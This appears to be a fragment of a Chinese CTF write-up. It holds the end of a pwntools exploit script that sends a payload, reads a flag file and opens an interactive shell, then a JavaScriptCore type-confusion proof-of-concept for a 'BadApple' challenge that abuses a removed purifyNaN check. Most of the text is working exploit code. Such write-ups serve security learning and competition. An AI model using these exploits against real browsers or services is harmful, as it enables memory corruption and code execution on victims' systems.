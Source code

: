 ```plain
    sla("xmki","a"*113)
    sl(payload)
    success(hex(len(payload)))
    sl("./flag.txt\x00\n"*3)



    """
    payload += str(addr & 0xffffffff) + "\n"
    payload += str(addr >> 32)+"\n"
     b *$rebase(0x00000000000022F1)
    """

    sh.interactive()
if __name__ == "__main__":
    pwn("xxx.xxx.xxx",9999,0)
```

## BadApple

参考链接：

1.  [https://blog.exodusintel.com/2023/12/11/safari-hold-still-for-nan-minutes/](https://blog.exodusintel.com/2023/12/11/safari-hold-still-for-nan-minutes/)
2.  [https://www.youtube.com/watch?v=k1wEJFqirT8](https://www.youtube.com/watch?v=k1wEJFqirT8)

看 `diff` 可以看到去掉了对 `purifyNaN` 的掉用，直接掉用了 `boxDouble`。而 `boxDouble` 的输入是可以完全控制的，所以我们可以控制 `boxDouble` 的输出在 JSC 看来不再是一个 `Double` 而是一个 `Object`。

```plain
let abuf = new ArrayBuffer(0x10);
let bbuf = new BigUint64Array(abuf);
let fbuf = new Float64Array(abuf);

obj = {x:1234, y:1234};

function trigger(arg, a2) {
    for (let i in obj) {
        obj = [1];
        let out = arg[i];
        a2.x = out;
    }
}

function main() {

    t = {x: {}};
    trigger(obj, t);

// [1]
    for (let i = 0 ; i ＜ 0x1000; i++) {
      trigger(fbuf,t);
    }

// [2]
    bbuf[0] = 0xfffe0000_12345678n;
    trigger(fbuf, t);

// [3]
    t.x;
}

main()
```
